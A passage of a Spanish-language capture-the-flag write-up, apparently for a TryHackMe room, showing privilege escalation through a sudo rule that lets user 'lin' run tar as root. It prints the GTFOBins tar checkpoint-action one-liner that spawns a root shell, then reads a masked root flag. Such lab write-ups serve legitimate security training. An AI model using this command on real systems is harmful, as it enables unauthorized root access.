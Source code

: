 Vemos que el usuario `lin` puede ejecutar el comando `/bin/tar` como `root`.

Al consultar en [GTFOBins](https://gtfobins.github.io/), podemos ver que es posible explotar este binario para escalar privilegios con el comando que se muestra en la figura.

![gtfobins](gtfobins.png)

Ejecutamos el comando especificado y verificamos que hemos escalado privilegios `root` con el comando `whoami`.

```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
```

Por último, accedemos al directorio `/root` y leemos la última flag.

```bash
# cd /root
# ls
root.txt
# cat root.txt
THM{*************}
```

!Happy Hacking¡
